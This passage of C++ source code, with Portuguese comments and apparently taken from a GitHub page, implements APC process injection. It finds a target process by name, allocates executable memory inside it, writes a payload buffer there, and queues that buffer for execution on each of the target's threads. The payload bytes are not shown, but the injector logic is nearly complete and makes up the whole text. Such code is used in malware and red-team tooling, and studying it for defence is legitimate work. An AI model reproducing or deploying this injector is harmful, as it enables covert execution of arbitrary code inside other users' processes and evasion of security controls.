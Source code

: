 ```cpp
    while (proc) {
        if (strcmp(procName, pe32.szExeFile) == 0) {
            pid = pe32.th32ProcessID;
            break;
        }
        proc = Process32Next(hSnapshot, &pe32);
    }

    // fecha o handle aberto
    CloseHandle(hSnapshot);
    return pid;
}

DWORD getThIDs(DWORD pid, std::vector<DWORD>& thIds) {
    HANDLE thSnapshot;
    THREADENTRY32 te;
    te.dwSize = sizeof(THREADENTRY32);

    thSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, NULL);
    if (Thread32First(thSnapshot, &te)) {
        do {
            // comparando o pid do processo com o pid do dono da thread
            if (pid == te.th32OwnerProcessID) {
                //caso positivo, adiciona o ID da thread no vetor
                thIds.push_back(te.th32ThreadID);
            }
        } while (Thread32Next(thSnapshot, &te));
    }

    CloseHandle(thSnapshot);
    return !thIds.empty();
}


int main(int argc, char* argv[]) {
    int pid = 0;
    HANDLE procH; // process handle
    LPVOID remoteB; // remote buffer
    HANDLE ht; // thread handle
    std::vector<DWORD> thIds; // vetor para os IDs das threads

    pid = findPID(argv[1]);


    // cria o handle para o processo
    procH = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(pid));

    // aloca o buffer de memoria no processo remoto
    remoteB = VirtualAllocEx(procH, NULL, payload_len, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

    // copia o payload entre os processos
    WriteProcessMemory(procH, remoteB, payload, payload_len, NULL);

    // iterando sobre os IDs das threads
    if (getThIDs(pid, thIds)) {
        for (DWORD thId : thIds) {
            ht = OpenThread(THREAD_SET_CONTEXT, FALSE, thId);
            if (ht) {
                QueueUserAPC((PAPCFUNC)remoteB, ht, NULL);
                CloseHandle(ht);
            }
        }
```